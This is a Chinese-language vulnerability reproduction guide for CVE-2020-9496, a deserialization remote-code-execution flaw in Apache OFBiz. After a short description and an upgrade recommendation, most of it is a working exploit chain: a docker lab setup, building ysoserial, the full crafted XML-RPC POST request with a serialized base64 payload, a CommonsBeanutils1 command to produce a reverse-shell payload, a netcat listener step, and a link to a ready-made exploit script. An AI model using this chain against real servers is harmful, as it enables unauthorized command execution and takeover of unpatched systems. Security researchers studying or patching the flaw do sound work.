

# CVE-2020-9496 Apache OfBiz反序列化命令执行漏洞

##  0x00 漏洞描述

Apache OFBiz全称是The ApacheOpen For Business Project。是开放的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新的J2EE/XML规范和技术标准，构建大中型企业级、快平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。OFBiz几乎实现了所有的J2EE核心设计模式，各个模块之间的耦合比较松散，用户能够比较容易的根据自己的需要进行拆卸，非常灵活。

Apache ofbiz 存在反序列化漏洞，攻击者通过访问未授权接口，构造特定的xmlrpc http请求，可以造成远程代码执行的影响。

## 0x01 影响版本

Apache Ofbiz：< 17.12.04

## 0x02 修复建议

1、建议升级至最新版本

## 0x03 环境搭建

1、下载地址：

`https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496`

`cd CVE-2020-9496`

`docker-compose up -d`


2、访问`https://your-ip:8443/myportal/control/main`访问注册页面，看到版本为17.12.01。


3、安装漏洞复现需要的java环境

安装jdk1.8或以上的java环境。自行下载、安装、配置环境变量。

4、安装maven，使用wget下载mvn

`wget https://mirrors.bfsu.edu.cn/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz`
`mkdir /opt/maven`
`tar zxvf apache-maven-3.6.3-bin.tar.gz -C /opt/maven/`

配置环境变量`vim /etc/profile`，在最后追加：

`export MAVEN_HOME=/opt/maven/apache-maven-3.6.3`
`export PATH=$MAVEN_HOME/bin:$PATH`

刷新环境变量，查看maven版本

source /etc/profile
mvn -version


5、在GitHub上下载java反序列化利用工具ysoserial

`git clone https://github.com/frohoff/ysoserial.git`


5.1 进入ysoserial目录，使用maven下载编译需要的包，编译成功为以下图片

`mvn clean package -DskipTests`


5.2 在ysoserial目录可以看到有一个target目录，进入此目录，可以看到有工具包ysoserial-0.0.6-SNAPSHOT-all.jar


## 0x04 漏洞利用

### CVE-2020-9496漏洞复现

1、在页面url访问以下链接使用Burpsuite抓包，并发送到Repeater模块

`https://your-ip:8443/webtools/control/xmlrpc`

2、把数据包替换成以下数据包

`POST /webtools/control/xmlrpc HTTP/1.1`
`Host: your-ip`
`Content-Type: application/xml`
`Content-Length: 4093`
`<?xml version="1.0"?>`
`<methodCall>`
`<methodName>ProjectDiscovery</methodName>`
`<params>`
`<param>`
`<value>`
`<struct>`
`<member>`
`<name>test</name>`
`<value>`
`<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>`
`</value>`
`</member>`
`</struct>`
`</value>`
`</param>`
`</params>`
`</methodCall>`

3、使用使用ysoserial的CommonsBeanutils1来生成Payload在tmp目录写入文件


4、复制base64编码的payload，粘贴到burpsuite数据包中base64payload的地方


重放请求，返回200（xml内容前需要一个空行，否则解析有问题，请求返回400）


可以进docker中查看是否写入成功


### 反弹shell

1、利用漏洞反弹shell，去以下网址把反弹shell的payload进行base64编码

```
http://www.jackson-t.ca/runtime-exec-payloads.html
```


2、把编码后的shell在使用ysoserial工具进行一次base64编码

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "[getshell的base64编码转换后内容]" | base64 | tr -d "\n"`



3、nc设置监听，把生成的exp放入到burp的数据包中发送，查看nc监听以返回shell


## 0x05 利用脚本

pocsuite3脚本exp：

`https://github.com/A11an10/poc/blob/main/apache_ofbiz_cve20209496_poc.py`

